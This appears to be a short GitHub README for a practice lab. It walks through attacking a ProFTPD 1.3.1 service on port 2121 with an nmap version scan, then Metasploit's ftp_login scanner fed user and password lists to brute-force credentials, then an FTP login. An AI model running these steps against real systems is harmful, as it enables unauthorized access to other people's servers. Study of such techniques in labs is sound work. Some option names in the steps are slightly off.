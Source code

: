 # Port-2121-ProFTPD-1.3.1
1.nmap -sV (target ip)
![image](https://github.com/thanawut2903/Port-2121-ProFTPD-1.3.1/assets/159118913/82f3c6e8-513a-422e-9d02-59cf02e9d665)


2.msfconsole

3.msf 6 > search ftp login
![image](https://github.com/thanawut2903/Port-2121-ProFTPD-1.3.1/assets/159118913/1c24377f-54a9-4897-a9bb-00daff1e5d3b)
4.msf 6 > use auxiliary/scanner/ftp/ftp_login

5.msf 6 > show options 
![image](https://github.com/thanawut2903/Port-2121-ProFTPD-1.3.1/assets/159118913/328d495b-676e-45c5-9b28-52860d999f25)
6.msf 6 > set RHOST (target ip)

7.msf 6 > set user_file (path user.txt)

8.msf 6 > set user_pass (path pass.txt)

9.msf 6 > set RHOST (target ip)

10. msf 6 > run

![image](https://github.com/thanawut2903/Port-2121-ProFTPD-1.3.1/assets/159118913/3c3054e1-83a5-4094-9a85-ac72f0216828)

11.ftp (target ip) 
![image](https://github.com/thanawut2903/Port-2121-ProFTPD-1.3.1/assets/159118913/22bc3151-9adb-4f78-9626-4a0ef80e4751)

Reference form : https://www.youtube.com/watch?v=4CkCt-OHcqA
